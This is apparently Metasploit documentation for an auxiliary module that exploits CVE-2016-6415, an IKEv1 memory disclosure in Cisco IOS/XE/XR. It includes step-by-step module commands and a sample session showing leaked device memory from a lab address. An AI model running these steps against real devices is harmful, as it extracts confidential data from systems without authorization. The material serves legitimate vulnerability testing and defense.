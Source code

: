 This module is for CVE-2016-6415, A vulnerability in Internet Key Exchange version 1 (IKEv1) packet processing code in Cisco IOS, Cisco IOS XE, and Cisco IOS XR Software could allow an unauthenticated, remote attacker to retrieve memory contents, which could lead to the disclosure of confidential information.

The vulnerability is due to insufficient condition checks in the part of the code that handles IKEv1 security negotiation requests. An attacker could exploit this vulnerability by sending a crafted IKEv1 packet to an affected device configured to accept IKEv1 security negotiation requests. A successful exploit could allow the attacker to retrieve memory contents, which could lead to the disclosure of confidential information.

## Verification Steps

1. Do: ```use auxiliary/scanner/ike/cisco_ike_benigncertain```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

```
msf auxiliary(cisco_ike_benigncertain) > show options

Module options (auxiliary/scanner/ike/cisco_ike_benigncertain):

   Name        Current Setting                                                                            Required  Description
   ----        ---------------                                                                            --------  -----------
   PACKETFILE  /opt/metasploit-framework/data/exploits/cve-2016-6415/sendpacket.raw                       yes       The ISAKMP packet file
   RHOSTS      192.168.1.2                                                                                yes       The target address range or CIDR identifier
   RPORT       500                                                                                        yes       The target port
   THREADS     1                                                                                          yes       The number of concurrent threads

msf auxiliary(cisco_ike_benigncertain) > set verbose True
msf auxiliary(cisco_ike_benigncertain) > run

[*] Printable info leaked:
>5..).........9.................................................................x...D.#..............+#.........\.....?.L...l...........h.............#.....................l...\...........l.....X.................a.#...R....X.....y#.........x...@V$.\.............X.<....X................W....._y>..#t... .....H...X.....W.......................................>.$...........>5..).............................!.....:3.K......X.............xV4.xV4.xV4.......................................X...........X.:3.KxV4.xV4.................$...m;......xV4.xV4.xV4.xV4.xV4.xV4.xV4.xV4...........!.....<<<<........................................................................................................................................................<<<<....................$...............................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................<<<<1.......................................<<<<....9....... .......d....................Q..........<<<<....9....... ...............(............Q..........<<<<........................CI................................................................................ab_cdefg_pool...................................................................................................................................................................................ozhu7vp...........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
[+] 192.168.1.2:500 - IKE response with leak
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
